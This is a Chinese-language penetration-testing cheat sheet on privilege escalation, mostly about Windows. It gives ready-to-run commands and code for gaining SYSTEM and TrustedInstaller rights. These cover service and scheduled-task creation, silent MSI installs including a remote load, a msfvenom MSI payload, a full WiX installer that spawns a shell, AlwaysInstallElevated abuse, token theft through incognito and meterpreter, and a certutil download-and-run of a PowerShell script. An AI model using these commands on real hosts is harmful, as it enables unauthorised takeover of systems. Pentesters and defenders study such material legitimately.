






# 权限提升

> 部分内容由 [the-fog](https://github.com/the-fog) 提供,仅做部分内容排版修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 大纲

* **[Win](#win)**

* **[Linux](#linux)**

* **[Mysql](#mysql)**

* **[MSSQL](#mssql)**

* **[PostgreSQL](#postgresql)**

* **[Redis](#redis)**

---

**多平台提权辅助工具**
- [carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) - 包含 win、Linux，之后还会有 mac
- [Loophole](https://detect.secwx.com/)
- [AlessandroZ/BeRoot](https://github.com/AlessandroZ/BeRoot)
- [vulmon/Vulmap](https://github.com/vulmon/Vulmap) - 在线本地漏洞扫描程序项目

---

## Win

**相关案例**
- [记一次绕过火绒安全提权实战案例](https://mp.weixin.qq.com/s/Oe1ARbfpoPiognCGDQ4HeA) - 与其说是提权其实还是pth，比较特殊

### 提权漏洞
-  [OS-Exploits](../OS安全/OS-Exploits.md#提权漏洞)

### 管理员权限提权成 system

**相关文章**
- [渗透技巧——从Admin权限切换到System权限](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90)
- [Alternative methods of becoming SYSTEM](https://blog.xpnsec.com/becoming-system/)
- [Metasploit、Powershell之AlwaysInstallElevated提权实战](https://xz.aliyun.com/t/203)

#### windows 自带功能

**SC 命令**

```
sc Create MyService binPath= "cmd /c start" type= own type= interact
sc start MyService
```



该命令在 xp 系统可以正常使用, win7 和 winsrv2008 下需要点击查看信息, win8 以上不支持

进入命令行界面后,可以输入 explorer.exe 打开系统桌面,路径为 C:\Windows\system32\config\systemprofile\Desktop

在此种环境下打开的任何程序都具有 system 权限

**计划任务**

- at 命令
    ```
    at 9:30 cmd.exe
    ```

    适用于 win7 和 winsrv2008

- schtasks 命令

    - 创建服务, 以 system 权限启动
        ```
        schtasks /Create /TN MyService2 /SC DAILY /ST 10:00:00 /TR cmd.exe /RU SYSTEM
        ```

    - 查看服务状态
        ```
        schtasks /Query /TN MyService2
        ```

        有时候会报错 错误: 无法加载列资源, 这是由于 cmd 编码是 gbk 导致的, 调整为美国编码 (此时无法打印非 ascii 字符) 即可:
        ```
        chcp(查看当前 cmd 窗口编码, gbk 为 936)
        chcp 437
        ```

    - 删除服务
        ```
        schtasks /Delete /TN MyService2 /F
        ```

    支持 win7-win10, 借助工具才能看到

**使用 psexec 会创建 PSEXESVC 服务**

```
psexec.exe -accepteula -s -i -d cmd.exe
```

默认情况下, system 权限的进程不会在用户桌面显示, 如果不想显示进程界面, 可以去掉 -i 参数; 第一次使用 psexec.exe 需要确认, 使用 -accepteula 参数无需确认

如果系统不自带,下载地址为:  https://download.sysinternals.com/files/PSTools.zip

官方文档:   https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

**命名管道**

这里借鉴了 Meterpreter 的方法:
1. 创建 system 权限的服务, 提供一个命名管道
2. 创建进程, 连接到该命名管道

使用 github 上的开源代码
- https://github.com/xpn/getsystem-offline

下载下来之后编译成 getsystem-offline.exe 和 getsystem_service.exe; 依次在命令行运行 getsystem_service.exe 和 getsystem-offline.exe 即可 (测试机上需安装 .net4.0)

#### 利用 msi 安装文件获得System权限

msi格式的介绍
- http://sc.openoffice.org/compdocfileformat.pdf

**msiexec**

系统进程, 是 Windows Installer 的一部分, 用于安装 Windows update 更新和 Windows Installer 安装包, 后者即上面提到的 .msi 格式的安装包; 在命令行下运行 msiexec, 即可看到帮助文档

我们平时双击打开一个 .msi 文件,相当于在命令行下执行了如下命令
```
msiexec /i xxx.msi
```

隐藏界面安装
```
msiexec /q /i xxx.msi
```

远程加载安装
```
msiexec /q /i http://192.168.101.146/test.msi    (文件后缀名可以不为.msi)
```

**Advanced Installer**

Advanced Installer 是一个 Windows Installer 的 MSI 安装包的制作工具, 下载地址: https://www.advancedinstaller.com/download.html







**利用 AlwaysInstallElevated 提权**

利用组策略可以实现权限提升, 开启 AlwaysInstallElevated 特权安装功能
1. 打开组策略编辑器 (win+r,gpedit.msc)
2. 用户配置 -> 管理模板 ->Windows 组件 ->Windows Installer-> 永远以高特权进行安装 -> 选择启用
3. 计算机配置 -> 管理模板 ->Windows 组件 ->Windows Installer-> 永远以高特权进行安装 -> 选择启用

其实就是修改了两处注册表,命令行下进行上述操作
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**使用 msf 生成 msi**

本地版本
```
msfvenom -p windows/exec CMD=cmd.exe -f msi > test.msi
```

输入 shell 命令进入目标主机 cmd 下使用命令行工具 Msiexec 进行安装，具体命令如下
```
msiexec /quiet /qn /i C:\msi.msi
msiexec工具相关的参数：
/quiet=安装过程中禁止向用户发送消息
/qn=不使用图形界面
/i=安装程序
```
运行后,此时在 `C:\Windows\Installer` 会生成 temp 和 msi 临时文件,安装结束后会自动删除;如果使用的是命令行隐藏安装,则会保留tmp文件;不管怎么都会在 `%TEMP%` 目录下生成对应的log文件

**wix3**

下载地址: https://github.com/wixtoolset/wix3/releases/

msigen.wix 代码下载地址: https://gist.github.com/xpn/d1ef20dfd266053227d3e992ae84c64e

由于上述文件中的 payload 如今已不免杀, 所以我将其替换成如下 payload:
```xml
<Property Id="cmdline">cmd.exe
</Property>
```

完整代码如下:
```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
    <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product
    Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

     <Directory Id="TARGETDIR" Name="SourceDir">
        <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
            <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
            </Component>
        </Directory>
        </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
        <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">cmd.exe
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR"
    ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
        invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
        <Custom Action="SystemShell" After="InstallInitialize"></Custom>
        <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

    </Product>
</Wix>
```

编译命令:
```cmd
candle.exe msigen.wix
light.exe msigen.wixobj
```

直接双击执行 msigen.msi 会弹框，启动的 calc.exe 为 system 权限

命令行下执行：
```
msiexec /q /i msigen.msi
```

启动的 calc.exe 为 high 权限

#### 利用 token 复制获得 System 权限

**简介**

Windows 有两种类型的 Token
1. Delegation token(授权令牌): 用于交互会话登录 (例如本地用户直接登录、远程桌面登录)
2. Impersonation token(模拟令牌): 用于非交互登录 (利用 net use 访问共享文件夹)

注： 两种 token 只在系统重启后清除, 具有 Delegation token 的用户在注销后, 该 Token 将变成 Impersonation token, 依旧有效

**incognito**

下载地址: https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip

列举 token
```
incognito.exe list_tokens -u
```

提权至 system
```
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

切换到 A 用户
```
incognito.exe execute -c "WIN-SIL71EN1H12\a" cmd.exe
```

伪造用户
```
incognito.exe execute -c "WIN-SIL71EN1H12\b" cmd.exe
```

**metasploit 版**

首先回弹一个 meterpreter 的 shell 回来

加载 incognito
```
load incognito
```

列举 token
```
list_tokens -u
```

查看当前用户
```
getuid
```

提权至 system 权限
```
getsystem
```

指定用户 token 窃取
```
impersonate_token "NT AUTHORITY\SYSTEM"
```

指定进程号窃取
```
steal_token 7376
```

返回之前 token
```
rev2self
或者
drop_token
```

**powershell 版**

NtObjectManager

安装模块
```
Install-Module -Name NtObjectManager
```

提权
```
New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess(Get-NtProcess -Name lsass.exe)
```

卸载模块
```
Uninstall-Module -Name NtObjectManager
```

psgetsystem
```
certutil -urlcache -split -f https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
.\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(666,"c:\windows\system32\cmd.exe","")

将上面命令中的 666 改为任意一个 system 权限的进程的 pid 即可
```



**C++ 实现**

代码地址:   https://gist.github.com/xpn/a057a26ec81e736518ee50848b9c2cd6

下载下来之后, 用 vs2019 打开, 文件 -> 从现有代码构建项目 ->Visual C++-> 下一步 -> 选择文件夹, 填写项目名 -> 完成

添加头文件
```c++
#include <windows.h>
#include <stdio.h>
```
编译即可

找对应进程的 pid
```
ps |findstr lsass
```

提权成 system
```
.\getsystem_parent.exe 944
```

### 提权成 trustedinstaller 组用户

**描述**

在 Windows 系统中，即使获得了管理员权限和 system 权限，也不能修改系统文件

因为 Windows 系统的最高权限为 TrustedInstaller

**相关文章**
- [渗透技巧——Token窃取与利用](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Token%E7%AA%83%E5%8F%96%E4%B8%8E%E5%88%A9%E7%94%A8)
- [The Art of Becoming TrustedInstaller](https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html)

**查看 trustedinstaller 用户**

```
Get-Acl -Path C:\Windows\servicing\TrustedInstaller.exe |select Owner
```

#### 利用TrustedInstaller.exe的token

使用 TrustedInstaller.exe 的 token 创建子进程，这样子进程就有了 TrustedInstaller 权限

**powershell 版**

先安装 Set-NtTokenPrivilege 命令

https://www.powershellgallery.com/packages/NtObjectManager/1.1.1

```powershell
# Save-Module需要powershell v5.0支持
Save-Module -Name NtObjectManager -Path c:\test
Install-Module -Name NtObjectManager -RequiredVersion 1.1.1
```

```powershell
Set-ExecutionPolicy Unrestricted
Import-Module NtObjectManager

sc.exe start TrustedInstaller
Set-NtTokenPrivilege SeDebugPrivilege
$p = Get-NtProcess -Name TrustedInstaller.exe
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $p
```

使用 whoami 查看当前 cmd 权限：
```
whoami /groups /fo list

whoami /groups | findstr TrustedInstaller
```



**metasploit 版**

首先回弹一个 meterpreter 的 shell 回来

加载 incognito
```
load incognito
```

提权至 system 权限
```
impersonate_token "NT AUTHORITY\SYSTEM"
```

启动 trustedinstaller 服务
```
shell
sc start trustedinstaller
```

找到进程对应的 pid
```
ps
```

窃取 token
```
steal_token 7376
```

验证是否提权成功
```
shell
whoami /groups
echo aaa > C:Windows\servicing\1.txt
```

**SelectMyParent**

- https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/SelectMyParent.cpp

```
sc.exe start TrustedInstaller
SelectMyParent.exe cmd.exe 1700
```

**Invoke-TokenManipulation.ps1**

- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

```powershell
sc.exe start TrustedInstaller
$id  = Get-Process -name TrustedInstaller* | Select-Object id | ForEach-Object -Process{$_.id}
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId $id
```

### 降权

**描述**

降权通常是指从system权限降到普通用户权限，往往是为了操作当前用户的文件内容（如捕获桌面、操作注册表等）

**相关文章**
- [渗透技巧——程序的降权启动](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A8%8B%E5%BA%8F%E7%9A%84%E9%99%8D%E6%9D%83%E5%90%AF%E5%8A%A8)

**为什么要降权**
- 无法获得当前用户的文件内容
- 环境变量存在差异
    - system权限下，查询到的环境变量APPDATA为`C:\Windows\system32\config\systemprofile\AppData\Roaming`
    - 管理员权限下，查询到的环境变量APPDATA为`C:\Users\a\AppData\Roaming`
- 注册表存在差异

#### 管理员权限降到普通用户权限

**runas**

```
runas /user:test calc.exe
```

这个需要手动输入密码

通过配合 sanur 可以通过管道的方法将密码或者文件中的内容传递给 runas 程序
```
runas /user:test calc.exe | sanur password
```

**lsrunas**

- http://www.verydoc.com/exeshell.html

```
lsrunas.exe /user:test /password:123456 /domain: /command:"calc.exe" /runpath:c:\
```

**CPAU**

- https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/CPAU.exe

```
CPAU.exe -u test -p 123456 -ex "calc.exe" -cwd c:\windows\system32 -lwp

// 必须添加参数-lwp或-lwop，否则无法实现降权
```

**powershell**

```powershell
$uname="test"
$pwd=ConvertTo-SecureString  "123456" -AsPlainText –Force
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
Start-Process -FilePath  "calc.exe" -Credential $cred
```

#### system权限降到普通用户权限

**SelectMyParent**
- https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/SelectMyParent.cpp

---

## Linux

**常规提权**

- 参考 [OS-Exploits](../OS安全/OS-Exploits.md#linux) 中的 linux 漏洞部分

**Restricted Bash 绕过**
- 相关文章
    - [Restricted Bash绕过技巧](https://mp.weixin.qq.com/s/bIwKOz1uo-anQyFP0W_j7g)

- 什么是 Restricted Bash

    Restricted Bash(rbash) 又叫做 Restricted Shell，顾名思义就是受限制的 shell。Linux 的 shell 功能强大，以至于整个 Linux 系统可以精准的使用 shell 来控制。在 Linux 不同用户之间，当你执行的一个系统命令时，它可能是危险的不可逆命令，为不同用户之间设定不同权限进行安全管理引入了限制 Bash Shell，防止一些非必要权限用户执行有害系统的高危命令。

    再比如一台 Linux 系统服务器中采用多用户管理，部分用户没有 sudo 权限，但是这些用户可以查看系统目录中大部分内容，虽然没有权限进行编辑但是不希望这些用户查看这些目录，这时可以通过 rbash 在不调整系统上每个文件夹权限的情况下通过限制用户输入某些命令来限制用户随意查看。

    简单来说 rbash 与 shell 的区别就是限制一些行为，让一些命令无法执行。

- rbash 绕过方法
    - 参考 [linux安全](../OS安全/Linux安全.md#lol) 中的 LOL 技巧

---

## Mysql

- [Mysql提权](../软件服务安全/实验/Mysql.md)

---

## MSSQL

- [MSSQL提权](../软件服务安全/实验/MSSQL.md)

---

## PostgreSQL

- [PostgreSQL提权](../软件服务安全/实验/PostgreSQL.md)

---

## Redis

- [Redis](../软件服务安全/实验/Redis.md)

---

## Oracle

- [Oracle](../软件服务安全/实验/Oracle.md)

---

## Docker

- [Docker](../软件服务安全/实验/Docker.md)

---

## Kubernetes

- [Kubernetes](../软件服务安全/实验/Kubernetes.md)
